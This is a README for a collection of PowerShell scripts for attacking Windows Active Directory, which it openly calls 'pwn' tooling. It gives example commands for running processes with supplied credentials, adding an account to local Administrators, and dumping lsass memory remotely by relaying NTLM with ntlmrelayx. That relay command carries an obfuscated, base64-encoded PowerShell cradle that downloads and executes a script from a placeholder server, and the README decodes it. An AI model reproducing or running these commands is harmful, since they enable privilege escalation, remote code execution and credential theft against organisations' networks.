 # PowershellScripts #

**Useful scripts for pwn Windows AD**

**Runas.ps1** - Easy script for start anything from cmd

``Example: powershell -exec bypass ./psrunas.ps1 -username user -password password -command cmd.exe -argument "/c whoami > test.txt"``

**startprocess.ps1** - An example of how to redirect output when launching a third-party application.

**getlocalgroups.ps1** - Get the list of groups (if you cant use net group...)

**getadmin.ps1** - Add user to group Administrators or Администраторы on localmachine

``Example: powershell -exec bypass ./getadmin.ps1 -Account username``

**remotepd.ps1** - Useful for getting dump the lsass memory in external computer by ntlmrelayx

``Example: ntlmrelayx.py --no-http-server -smb2support -t your_target -c 'powershell  -Enc aQBlAHgAKABOAEUAVwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvAHkAbwB1AHIAcwBlAHIAdgBlAHIALwByAGUAbQBvAHQAZQBwAGQALgBwAHMAMQAnACkACgA=' ``

``where base64 is: "iex(NEW-Object Net.WebClient).DownloadString('http://yourserver/remotepd.ps1')" ``


# Wish #

Find all intresting files|history log on local machine and domain
MsExchange attacks
